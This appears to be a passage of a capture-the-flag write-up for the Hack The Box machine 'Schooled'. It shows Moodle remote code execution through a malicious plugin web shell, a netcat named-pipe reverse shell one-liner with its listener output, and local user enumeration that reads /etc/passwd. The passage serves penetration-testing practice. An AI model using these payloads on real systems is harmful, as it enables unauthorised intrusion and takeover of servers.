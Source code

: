 ![Pasted image 20210511181102.png](../../zzz_res/attachments/Pasted_image_20210511181102.png)

## Remote Code Execution

[https://github.com/HoangKien1020/Moodle_RCE](https://github.com/HoangKien1020/Moodle_RCE)

Installed a malicious plugin:

![Pasted image 20210511181154.png](../../zzz_res/attachments/Pasted_image_20210511181154.png)

![Pasted image 20210511181349.png](../../zzz_res/attachments/Pasted_image_20210511181349.png)

[http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=whoami](http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=whoami)

![Pasted image 20210511181703.png](../../zzz_res/attachments/Pasted_image_20210511181703.png)

Executed a reverse shell BST type payload:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 10099 >/tmp/f
```

![Pasted image 20210511182423.png](../../zzz_res/attachments/Pasted_image_20210511182423.png)

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Schooled/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.234] 58314
sh: can't access tty; job control turned off
$ id
uid=80(www) gid=80(www) groups=80(www)
```

# Lateral Movement to jamie

## Local enumeration

Enumerated local users:

```bash
$ ls -al /home/
total 26
drwxr-xr-x   4 root   wheel   4 Mar 16 06:33 .
drwxr-xr-x  16 root   wheel  16 Feb 26 22:46 ..
drwx------   2 jamie  jamie  11 Feb 28 18:13 jamie
drwx------   5 steve  steve  14 Mar 17 14:05 steve

$ cat /etc/passwd | grep -v nologin
# $FreeBSD$
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
jamie:*:1001:1001:Jamie:/home/jamie:/bin/sh
steve:*:1002:1002:User &:/home/steve:/bin/csh
```

